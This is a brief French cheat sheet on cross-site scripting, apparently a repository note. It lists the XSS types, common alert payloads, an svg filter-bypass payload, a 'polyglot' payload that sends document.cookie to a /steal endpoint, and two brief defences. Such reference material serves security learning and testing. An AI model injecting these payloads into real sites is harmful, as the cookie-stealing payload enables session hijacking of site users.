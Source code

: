 # Cross-Site Scripting (XSS)

## Types d’XSS
- **Reflected XSS** : payload envoyé dans l’URL et réfléchi dans la réponse.  
- **Stored XSS** : payload persistant stocké dans la base de données.  
- **DOM-based XSS** : injection via manipulation du DOM côté client.

## Payloads courants
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```
- **Bypass** : `<svg/onload=alert('XSS')>`  
- **Polyglot** : `"><script>fetch('/steal?c='+document.cookie)</script>`

### Exemple Reflected
URL : `http://vuln.com/search?q=<script>alert(1)</script>`

### Protection
- Encodage HTML (`&lt;`, `&gt;`)  
- Content Security Policy (CSP)

---
